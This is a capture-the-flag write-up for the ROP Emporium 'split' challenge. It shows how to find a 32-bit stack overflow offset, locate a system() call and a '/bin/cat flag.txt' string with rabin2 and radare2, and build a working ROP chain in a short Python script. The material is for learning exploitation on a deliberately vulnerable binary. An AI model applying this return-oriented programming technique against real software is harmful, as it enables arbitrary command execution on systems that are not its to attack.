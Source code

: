 # split
The challenge is available [here](https://ropemporium.com/challenge/split.html).

## Black-Box Test
Just like in the previous challenge, let's start by running the `split32` program with simple input, such as `ABCD`.

```
./split32
```
![](./0.png)

Similarly, the return value we want to overwrite is located at the same index as in the previous challenge.

```
perl -e 'print "A"x44 . "\xfe\xbe\xad\xde"' | ./split32
```
![](./1.png)
```
sudo dmesg -k | tail -2
```
![](./2.png)

## Finding important details
As you might have guessed, this challenge also has NX protection enabled.

```
rabin2 -I split32 | grep nx
```
![](./3.png)

Therefore, we will proceed as in the previous challenge and try to find a function that can help us.

```
rabin2 -qs split32 | grep -ve 'imp' -e ' 0 ' -e '_'
```
![](./4.png)

In fact, the command displays symbols, some of which may be functions, but not only. At this stage, we've found two interesting symbols: `usefulFunction` and `usefulString`. From their names, we can infer what they contain. Let's first check `usefulString`. If it is indeed a string, we can also find it by searching for interesting strings and identify it by its address.

```
rabin2 -z split32
```
![](./5.png)

As can be seen, the string called `usefulString` is located at address `0x0804a030`, and its content is `"/bin/cat flag.txt"`.

If we can send this string to the `system()` function, we win. Keeping that in mind, let's check the `usefulFunction`.

```
r2 split32
```
```
aa
```
```
afl
```
![](./6.png)
```
pdf @ sym.usefulFunction
```
![](./7.png)

It can be seen that the function as a whole won't help us, but it contains a call to the `system()` function, which we do want. Additionally, the helper function pushes the address of the string `"/bin/ls"` onto the stack. We will aim to create a similar state on the stack, where the address of the `usefulString` is at the top of the stack when the call to `system()` is made.

## Solution
Let's summarize in a tables the details we discovered from the research that are important for the ROP Chain.

| String              | Address    |
|---------------------|------------|
| "/bin/cat flag.txt" | 0x0804a030 |


| Code        | Address    |
|-------------|------------|
| call system | 0x0804861a |

* Note: This is not the address of the `system()` function, but rather the command that calls it.

Now we can build the ROP Chain. First, it will consist of 44 garbage characters. Immediately after that, the **address of the command that calls** the `system()` function will appear. As mentioned, the `system()` function expects the call to be made when the address of the string it will operate on is already at the top of the stack. When the program uses the malicious return value, the top of the stack will increase by 4 bytes. Therefore, immediately after the malicious return value, we will add the address of the string `"/bin/cat flag.txt"`.

```python
# chain_builder.py
import struct

def little_endian(number):
    """
    : The function accepts a number not
    : exceeding 4 bytes in size and returns it
    : as a string of hexadecimal characters in : little-endian format.
    """
    return struct.pack("<I", number)

# Parts of the chain
fill_buffer           = b"X"*44
call_system_CODE_ADDR = 0x0804861a # The address of the command that calls the `system` function. Don't confuse it with the concept of a "system call".
cat_STRING_ADDR       = 0x0804a030

# Building the chain
ROP_Chain = fill_buffer
ROP_Chain += little_endian(call_system_CODE_ADDR)
ROP_Chain += little_endian(cat_STRING_ADDR)

# Saving the chain in a binary file
with open("rop_chain", "wb") as f:
    f.write(ROP_Chain)
```
```
python3 chain_builder.py
```
```
cat rop_chain | ./split
```
![](./8.png)

Haida!